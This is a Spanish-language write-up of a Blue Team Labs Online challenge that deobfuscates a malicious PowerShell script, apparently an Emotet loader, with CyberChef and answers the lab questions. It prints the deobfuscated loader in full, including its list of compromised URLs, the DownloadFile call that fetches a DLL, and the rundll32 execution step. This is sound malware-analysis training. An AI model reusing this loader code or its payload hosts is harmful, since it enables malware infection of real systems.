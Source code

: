 ```yaml
---
layout: single
title: BTLO Challenge - Malicious PowerShell Analysis
excerpt: Análisis de un correo de phising.
date: 2025-08-11
classes: wide
header:
  teaser: ../gits/sec/blog/assets/imag
  teaser_home_page: true
  icon: ../assets/images/btlo.png
categories:
   - Blue Team Labs Online
   - Security Operations
tags:
   - cyberchef
   - powershell
   - tls
   - loader malware
---
```


Primero, podemos echar un vistazo al primer script: 

```bash 
┌──(kali㉿kali)-[~/challenges/power/BTLO PowerShell Analysis] 
└─$ cat ps_script.txt POwersheLL  -w hidden -ENCOD                 IABzAEUAdAAgAE0ASwB1ACAAKAAgAFsAVABZAFAAZQBdACgAIgB7ADAAfQB7ADEAfQB7ADIAfQB7ADQAfQB7ADMAfQAiACAALQBGACAAJwBTAFkAcwBUACcALAAnAGUATQAuACcALAAnAGkAbwAuAEQASQAnACwAJwBPAFIAWQAnACwAJwByAEUAQwB0ACcAKQAgACkAOwAgACAAIAAgAFMAZQBUAC0AaQBUAEUATQAgACAAKAAnAHYAYQBSACcAKwAnAEkAYQBiAEwARQAnACsAJwA6AG0AQgB1ACcAKQAgACgAIAAgAFsAV
``` 

Claramente está ofuscado, así que vamos a usar cyberchef para ver de qué se trata. Usamos el ingrediente "magic" para intentar descubrír el método de ofuscación: 


![](../assets/images/btlo-shell/1.png) 

Nos sugiere que está encodeado en base64 con UTF-16LE(1200), así que lo agregamos a la receta. 

![](../assets/images/btlo-shell/2.png)

Aún está ofuscado, así que observando parece que podemos eliminar las partes que nos molestan den código, en ete caso los siguientes caracteres: ""+()'',{}\`

![](../assets/images/btlo-shell/3.png)

Ahora si vemos detenidamente observamos que la cadena `]anw[3s` aparece antes de `://`, así que podemos asumir que esto se trata de la cadena `http`, así que remplazamos esto: 

![](../assets/images/btlo-shell/4.png)

Ahora, podemos ver que en la siguiente parte subrayada tenemos lo que parece ser una ruta, así que hacemos lo que se indica al final, remplazar `UOH` y añadimos un salto de linea para cada `;`. 

![](../assets/images/btlo-shell/5.png)

Y finalmente tenemos el script completamente desofuscado: 

```powershell
 sEt MKu  [TYPe]01243 -F SYsTeM.io.DIORYrECt 
    SeT-iTEM  vaRIabLE:mBu   [TYPe]680345271 -fSteMGerMa.net.seRVIcepOintsNAY
 $ErrorActionPreference = SilentlyContinue
$Cvmmq4o=$Q26L  [char]64  $E16H
$J16J=N_0P
 DIr VariabLE:Mku  .VaLUe::cREAtedIRECTORy$HOME  0Db_bh300Yf5be5g0 -F [chAR]92
$C39Y=U68S
   vARiaBLe  mbu  -VAlueoN  ::sEcuRITYproTocol = Tls12
$F35I=I4_B
$Swrp6tc = A69S
$X27H=C33O
$Imd1yck=$HOME/Db_bh30/Yf5be5g/.RePlACe/[StrInG][chAr]92$Swrp6tc.dll
$K47V=R49G
$B9fhbyv=https://admintk.com/wp-admin/L/@https://mikegeerinck.com/c/YYsa/@http://freelancerwebdesignerhyderabad.com/cgi-bin/S/@http://etdog.com/wp-content/nu/@https://www.hintup.com.br/wp-content/dE/@http://www.stmarouns.nsw.edu.au/paypal/b8G/@http://wm.mcdevelop.net/content/6F2gd/.REplACehttp[array]sdswhttp3d[1].sPLIT$C83R  $Cvmmq4o  $F10Q
$Q52M=P05K
foreach $Bm5pw6z in $B9fhbyvtry&New-Object SysTem.nEt.WEBcLIeNT.doWNlOaDFIlE$Bm5pw6z $Imd1yck
$Z10L=A92Q
If &Get-Item $Imd1yck.lenGTH -ge 35698 &rundll32 $Imd1yckControl_RunDLL.TOStRiNG
$R65I=Z09B
break
$K7_H=F12Ucatch$W54I=V95O
```

Así que pasamos a las preguntas. 

-------

What security protocol is being used for the communication with a malicious domain?

Para responder a esto podemos fijarnos en la siguiente linea: 

`   vARiaBLe  mbu  -VAlueoN  ::sEcuRITYproTocol = Tls12`

Se usa TLS, y sabiendo que al momento en el que escribo esto TLS está en la verisión 1.3, podemos afirmar que se trata de `TLS 1.2`. 

--------


What directory does the obfuscated PowerShell create? (Starting from \HOME\\) 

Podemos fijarnos en la siguiente línea: 

`$Imd1yck=$HOME/Db_bh30/Yf5be5g/.RePlACe/[StrInG][chAr]92$Swrp6tc.dll`

Así que pasando al formato que usa Windows, podemos afirmar que se trata del directorio `\HOME\Db_bh30\Yf5be5g`

-------

What file is being downloaded (full name)?

Con la pregunta anterior podemos contestar esta, se descarga un `.dll`: `A69S,dll`

------

What is used to execute the downloaded file?

Podemos fijarnos en la siguiente línea: 

`If &Get-Item $Imd1yck.lenGTH -ge 35698 &rundll32 $Imd1yckControl_RunDLL.TOStRiNG`

> rundll32.exe es una utilidad legítima de Windows que sirve para ejecutar funciones exportadas desde librerías dinámicas (archivos .DLL) como si fueran programas.

Explicando un poco el script: 

- Usa Get-Item para obtener el archivo recién descargado.
- Comprueba que su tamaño (Length) sea mayor o igual a 35.698 bytes (≈ 35 KB), esto como validación para asegurarse de que el archivo no esté corrupto o incompleto.
Ejecuta rundll32.exe.
- Pasa como parámetro el archivo descargado ($Imd1yck, la DLL maliciosa).
- El nombre de la función Control_RunDLL que debe ejecutarse dentro de esa DLL.
Esto carga y ejecuta la función maliciosa desde la DLL.

--------

What is the domain name of the URI ending in ‘/6F2gd/’?

Fijándonos en la lista de URL's, podemosver que se trata de `www.mcdevelop.net`

--------

Based on the analysis of the obfuscated code, what is the name of the malware?

Para esto podemos buscar por palabras clave como `A69S.dll`. 

![](../assets/images/btlo-shell/9.png)

Emotet es un tipo de malware bancario que, con el tiempo, evolucionó a una botnet y a una plataforma de distribución de otros malware. Fue detectado por primera vez en 2014, originalmente diseñado para robar credenciales bancarias, pero después se convirtió en un loader altamente modular capaz de instalar ransomware, troyanos y otros payloads maliciosos en los sistemas infectados.

